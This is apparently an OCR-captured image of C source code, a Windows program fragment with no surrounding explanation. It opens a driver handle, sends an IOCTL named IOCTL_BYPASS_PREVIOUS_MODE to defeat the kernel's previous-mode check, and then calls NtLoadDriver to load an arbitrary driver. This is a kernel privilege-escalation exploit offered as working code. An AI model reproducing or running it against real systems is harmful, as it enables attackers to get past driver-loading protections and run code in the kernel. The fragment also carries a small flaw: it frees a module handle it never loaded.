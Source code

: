 ```c
 HandleDevice = CreateFile(DEVICE_NAME, GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
 if (INVALID_HANDLE_VALUE == HandleDevice) {
  printf("Failed to connect Driver! Error Code: 0x%lx\n", GetLastError());

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }

 BOOLEAN bValue = TRUE;
 Result = DeviceIoControl(HandleDevice, IOCTL_BYPASS_PREVIOUS_MODE, &bValue, sizeof(bValue), NULL, 0, &OutputBytesReturned, NULL);
 if (!Result) {
  printf("Failed to IOCTL Code!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }

 NTDLL = GetModuleHandleA("ntdll.dll");
 if (NULL == NTDLL) {
  printf("Failed to get address of NTDLL!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NTDLL: 0x%p\n", NTDLL);

 _NtLoadDriver = (NtLoadDriver)GetProcAddress(NTDLL, "NtLoadDriver");
 if (NULL == _NtLoadDriver) {
  printf("Failed to get address of NtLoadDriver!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NtLoadDriver: 0x%p\n", _NtLoadDriver);

 Status = _NtLoadDriver(&DriverServiceName);
 if (Status != 0) {
  if (Status == 0xc000010e) {
   printf("The driver is already loaded\n");

   dwExitCode = EXIT_SUCCESS;
   goto Exit;
  }
  printf("Failed to Load Driver! Error Code: 0x%08x\n", Status);

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("The driver was installed successfully\n");
 dwExitCode = EXIT_SUCCESS;

Exit:
 if (NTDLL) {
  FreeLibrary(NTDLL);
 }
 if (HandleDevice) {
  CloseHandle(HandleDevice);
 }

 return dwExitCode;
}
```